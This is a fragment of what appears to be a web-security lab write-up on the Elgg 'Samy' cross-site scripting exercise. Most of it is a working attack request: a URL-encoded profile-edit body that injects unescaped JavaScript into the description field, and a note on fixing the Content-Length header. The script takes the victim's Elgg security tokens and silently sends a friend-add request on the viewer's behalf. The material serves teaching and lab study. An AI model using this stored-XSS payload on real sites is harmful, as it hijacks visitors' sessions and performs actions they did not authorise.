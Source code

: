 Alter it so that the script is not escaped:

```
__elgg_token=NYk3y9Q4OG72wXNF14tn3w&__elgg_ts=1743935314&name=Samy&description=%3Cscript+type%3D%22text%2Fjavascript%22%3E%0D%0Awindow.onload+%3D+function+%28%29+%7B%0D%0A++++var+Ajax%3Dnull%3B%0D%0A++++var+ts%3D%22%26__elgg_ts%3D%22%2Belgg.security.token.__elgg_ts%3B%0D%0A++++var+token%3D%22%26__elgg_token%3D%22%2Belgg.security.token.__elgg_token%3B%0D%0A++++var+friend%3D%22%26friend%3D%22%2Belgg.page_owner.guid%3B%0D%0A++++var+sendurl%3D%22http%3A%2F%2Fwww.xsslabelgg.com%2Faction%2Ffriends%2Fadd%3F%22%2Bfriend%2Bts%2Btoken%3B%0D%0A++++Ajax%3Dnew+XMLHttpRequest%28%29%3B%0D%0A++++Ajax.open%28%22GET%22%2Csendurl%2Ctrue%29%3B%0D%0A++++Ajax.setRequestHeader%28%22Host%22%2C%22www.xsslabelgg.com%22%29%3B%0D%0A++++Ajax.setRequestHeader%28%22Content-Type%22%2C%22application%2Fx-www-form-urlencoded%22%29%3B%0D%0A++++Ajax.send%28%29%3B%0D%0A%7D%0D%0A%3C%2Fscript%3E&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=47
```

We also need to update the `Content-Length` header to match the new length of the request body, which is 1257.

![](images/3-6-6.png)
